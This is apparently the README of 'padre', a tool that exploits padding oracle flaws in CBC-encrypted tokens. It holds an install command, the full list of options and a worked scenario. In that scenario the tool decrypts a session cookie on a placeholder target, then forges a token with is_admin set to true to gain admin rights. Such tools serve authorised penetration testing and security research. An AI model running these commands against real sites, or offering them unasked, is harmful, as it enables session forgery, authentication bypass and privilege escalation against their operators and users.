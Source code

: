 ![](https://img.shields.io/github/go-mod/go-version/glebarez/padre) ![](https://img.shields.io/github/workflow/status/glebarez/padre/Build)

# padre
***padre*** is an advanced exploiter for Padding Oracle attacks against CBC mode encryption

Features:
- blazing fast, concurrent implementation
- decryption of tokens
- encryption of arbitrary data
- automatic fingerprinting of padding oracles
- automatic detection of cipher block length
- HINTS! if failure occurs during operations, padre will hint you about what can be tweaked to succeed
- supports tokens in GET/POST parameters, Cookies
- flexible specification of encoding rules (base64, hex, etc.)

## Demo

![demo](assets/demo.gif )

## Installation/Update
```console
go get -u github.com/glebarez/padre
```

## Usage scenario
If you find a suspected padding oracle, where the encrypted data is stored inside a cookie named SESS, you can use the following:
```bash
padre -u 'https://target.site/profile.php' -cookie 'SESS=$' 'Gw3kg8e3ej4ai9wffn%2Fd0uRqKzyaPfM2UFq%2F8dWmoW4wnyKZhx07Bg=='
```
padre will automatically fingerprint HTTP responses to determine if padding oracle can be confirmed. If server is indeed vulnerable, the provided token will be decrypted into something like:
```json
 {"user_id": 456, "is_admin": false}
```
It looks like you could elevate your privileges here!

You can attempt to do so by first generating your own encrypted data that the oracle will decrypt back to some sneaky plaintext:
```bash
padre -u 'https://target.site/profile.php' -cookie 'SESS=$' -enc '{"user_id": 456, "is_admin": true}'
```
This will spit out another encoded set of encrypted data, perhaps something like below (if base64 used):
```text
dGhpcyBpcyBqdXN0IGFuIGV4YW1wbGU=
```
Now you can open your browser and set the value of the SESS cookie to the above value. Loading the original oracle page, you should now see you are elevated to admin level.

## Impact of padding Oracles
- disclosing encrypted session information
- bypassing authentication
- providing fake tokens that server will trust
- generally, broad extension of attack surface

## Full usage options
```
Usage: padre [OPTIONS] [INPUT]

INPUT: 
	In decrypt mode: encrypted data
	In encrypt mode: the plaintext to be encrypted
	If not passed, will read from STDIN

	NOTE: binary data is always encoded in HTTP. Tweak encoding rules if needed (see options: -e, -r)

OPTIONS:

-u *required*
	target URL, use $ character to define token placeholder (if present in URL)

-enc
	Encrypt mode

-err
	Regex pattern, HTTP response bodies will be matched against this to detect padding oracle. Omit to perform automatic fingerprinting

-e
	Encoding to apply to binary data. Supported values:
		b64 (standard base64) *default*
		lhex (lowercase hex)

-r
	Additional replacements to apply after encoding binary data. Use odd-length strings, consiting of pairs of characters <OLD><NEW>.
	Example:
		If server uses base64, but replaces '/' with '!', '+' with '-', '=' with '~', then use -r "/!+-=~"

-cookie
	Cookie value to be set in HTTP requests. Use $ character to mark token placeholder.

-post
	String data to perform POST requests. Use $ character to mark token placeholder. 

-ct
	Content-Type for POST requests. If not specified, Content-Type will be determined automatically.
	
-b
	Block length used in cipher (use 16 for AES). Omit to perform automatic detection. Supported values:
		8
		16 *default*
		32

-p
	Number of parallel HTTP connections established to target server [1-256]
		30 *default*
		
-proxy
	HTTP proxy. e.g. use -proxy "http://localhost:8080" for Burp or ZAP
```

## Further read
- https://blog.skullsecurity.org/2013/a-padding-oracle-example
- https://blog.skullsecurity.org/2016/going-the-other-way-with-padding-oracles-encrypting-arbitrary-data

## Alternative tools
- https://github.com/liamg/pax
- https://github.com/AonCyberLabs/PadBuster